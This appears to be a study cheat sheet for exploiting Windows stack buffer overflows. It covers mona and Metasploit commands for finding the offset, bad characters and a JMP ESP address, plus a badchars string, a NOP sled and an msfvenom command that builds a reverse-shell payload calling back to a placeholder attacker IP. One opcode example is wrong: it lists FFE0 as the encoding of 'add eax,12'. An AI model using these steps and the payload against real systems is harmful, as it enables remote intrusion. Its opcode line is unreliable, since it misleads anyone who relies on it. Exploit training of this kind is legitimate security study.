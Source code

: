 ## DONT REVERSE THE ASSEMBLY COMMANDS WHEN ADDING FIRST STAGE
## DONT TRUST POC CODE AND BUFFER LENGTH

## Configure Mona:
```
Command: !mona config -set workingfolder c:\mona\%p
```
## List all modules in Application
```
Mona Command: !mona modules
```
## Create cyclic char pattern:
```
Command: msf-pattern_create -l 4379
```
## Find offset through mona or by metasploit
```
Mona Command: !mona findmsp -distance 2560 (2560 number of bytes used in fuzzer)
Metasploit Command: msf-pattern_offset -l 2100 -q 72433372
```
## Find Badchars
```
Find badchars in limited space of addresses after EIP
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10""\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20""\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30""\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40""\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50""\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60""\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70""\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80""\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90""\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0""\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0""\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0""\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0""\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0""\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0""\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```
## Create byte array as you go:
```
Mona Command: !mona bytearray -b "\x00"
```
## Compare byte array:
```
Mona Command: !mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
## Finding a jumppoint:
```
!mona jmp -r esp -cpb "\x00" (Can change to other than esp)
```
## Nop sled:
```
padding = "\x90" * 10
```
## Generate assembly commands:
```
Command: msf-nasm_shell
nasm> jmp esp
FFE4
nasm> add eax,12
FFE0
```
## Debugging:
```
F2 
	-Set breakpoint
F7
	-Step into
F9
		-Run app
```
## Generate Payload:
```
Change ip,badchars,code format,port
Command: msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```